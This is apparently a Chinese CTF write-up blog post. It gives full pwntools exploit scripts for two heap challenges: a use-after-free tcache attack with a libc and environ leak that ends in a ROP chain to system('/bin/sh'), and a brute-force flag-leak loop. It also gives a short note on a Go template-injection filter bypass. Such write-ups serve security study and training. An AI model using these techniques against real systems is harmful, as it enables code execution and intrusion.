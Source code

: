 ```yaml
---
title: 高级网络攻防CTF
date: 2023-05-11 22:15:00 +0800
categories: [CTF, Exercise]
tags: [pwn, web]     # TAG names should always be lowercase
---
```


# pwn1

UAF+heap overflow

很容易制造tcache attack，由于libc2.36-9没了free hook，所以这题通过libc的environ泄露栈地址，将chunk伪造到栈上来覆盖返回地址。

[pwn1](/assets/binary/2023-05-13-%E9%AB%98%E7%BA%A7%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2CTF/pwn1.gz)

```python
from pwn import *

elf = ELF('./pwn')
libc = ELF('./libc.so.6')

context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

io = process(['./pwn-test'])
#io = remote('124.16.75.116', 52017)

def menu(choice):
    io.recvuntil(b"5. Exit\n> ")
    io.sendline(str(choice))

# index<=0x3f
# name 0x1f
# size<=0x3ff
def add(index, name, size, content):
    menu(1)
    io.recvuntil(b"Index: ")
    io.sendline(str(index))
    io.recvuntil(b"Name: ")
    io.sendline(name)
    io.recvuntil(b"size: ")
    io.sendline(str(size))
    io.recvuntil(b"Description: ")
    io.send(content)              

def delete(index):
    menu(2)
    io.recvuntil(b"Index: ")
    io.sendline(str(index))

# <=0x3f
def show(index):
    menu(3)
    io.recvuntil(b"Index: ")
    io.sendline(str(index))

def edit(index, content):
    menu(4)
    io.recvuntil(b"Index: ")
    io.sendline(str(index))
    io.recvuntil(b"Description")
    io.send(content)

def exit():
    menu(5)


add(0, "", 0x200, "content")
add(1, "name", 0x3ff, "content")
add(2, "name", 0x3ff, "content")
show(0)
io.recvuntil(b"Name: ")
io.recv(8)
stack_addr = u64(io.recv(8))

# leak the address of heap
delete(1)
show(1)
io.recvuntil(b"Name: ")
unsorted_bin = u64(io.recv(5).ljust(6, b'\x7f').ljust(8, b'\x00'))
main_arena = unsorted_bin - 0x10 - 80
libc_base = main_arena - 0x1d2c60
libc.address = libc_base
success("libc base: " + hex(libc_base))
add(1, "name", 0x3ff, "content") # keep subsequent chunk continuous

# leak the address of stack(environ)
add(3, "name", 0x10, "content")
add(4, "name", 0x10, "content")
add(5, "name", 0x10, "content")
add(6, "name", 0x10, "content")
delete(5)
show(5)
io.recvuntil(b"Name: ")
key = u64(io.recv(6).ljust(8, b'\x00')) - 1
success("key: " + hex(key))
target = libc.sym['environ'] - 0x10
payload = b'a'*(0x10) + p64(0) + p64(0x41) + p64(target ^ key)
delete(4)
edit(3, payload)
add(7, "name", 0x200, "content")
add(8, "", 0x200,  "content")
show(8)
io.recvuntil(b"Name: ")
io.recv(8)
success("unstable stack_addr(environ->): " + hex(stack_addr))
new_stack_addr = u64(io.recv(6).ljust(8, b'\x00'))
success("stable stack_addr(environ->): " + hex(new_stack_addr))
main_ret = new_stack_addr
success("main ret: " + hex(main_ret))

# hack the stack addr
add(9, "name", 0x200, "content")
add(10, "name", 0x200, "content")
add(11, "name", 0x200, "content")
add(12, "name", 0x200, "content")
delete(11)
show(11)
io.recvuntil(b"Name: ")
key = u64(io.recv(6).ljust(8, b'\x00'))
success("key: " + hex(key))
payload = b'a'*(0x200) + p64(0) + p64(0x231) + p64(main_ret ^ key)
delete(10)
edit(9, payload)
add(13, "name", 0x200, "content")
binsh_str = next(libc.search(b"/bin/sh"))
success("binsh: " + hex(binsh_str))
binsh_str = p64(binsh_str)[:-1]
ret = p64(0x270c2+libc_base)
pop_rdi = p64(0x27725+libc_base)
#gdb.attach(io)
#pause()
add(14, p64(0) + ret + pop_rdi + binsh_str, 0x200,  p64(libc.sym['system']))


io.interactive()
```

# pwn2

先malloc随机个随机大小的chunk，但数量不超过256，大小不超过1024，再随机释放一部分，之后将flag写到新malloc的块上。由于show的时候按随机字节write，有可能将后一个块的内容暴露出来，本题可以尝试申请flag前的所有块进行show来尝试暴露flag。需要注意的是将tcache上的块取下，由于tcache不可分割有可能造成flag前的块取不下来。

[pwn2](/assets/binary/2023-05-13-%E9%AB%98%E7%BA%A7%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2CTF/pwn2.gz)

```python
from pwn import *

elf = ELF('./pwn')
libc = ELF('./libc.so.6')

#context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

io = process('./pwn')
#io = remote('124.16.75.116', 52018)
def menu(index):
    io.recvuntil('4. Exit\n> ')
    io.sendline(str(index))

def check_if_flag():
    menu(3)
    io.recvuntil('Index: ')
    io.sendline('0')
    s = io.recvuntil('1. Add')
    s = str(s)
    if 'flag' in s:
        print(s)
        pause()
        io.interactive()

def add(size):
    menu(1)
    io.recvuntil('Index: ')
    io.sendline('0')
    io.recvuntil('Size: ')
    io.sendline(str(size))
    io.recvuntil("Data: ")
    io.sendline('\x00')

for sz in range(16, 1024, 16):
    for i in range(7):
        add(sz)
        gdb.attach(io, "set solib-search-path ~/workplace/pwn2")
        check_if_flag()
        check_if_flag()
        check_if_flag()

count = 0
while True:
    count += 1
    add(0x8)
    check_if_flag()
    check_if_flag()
    check_if_flag()
    print(count)
```


# web1

[web1](/assets/binary/2023-05-13-%E9%AB%98%E7%BA%A7%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2CTF/web1.zip)

go的模板实例化漏洞，会将用户输入的字符串解析并执行。需要通过UTF-16编码绕过contain的过滤检查，之后实例化执行的时候会被还原成字符串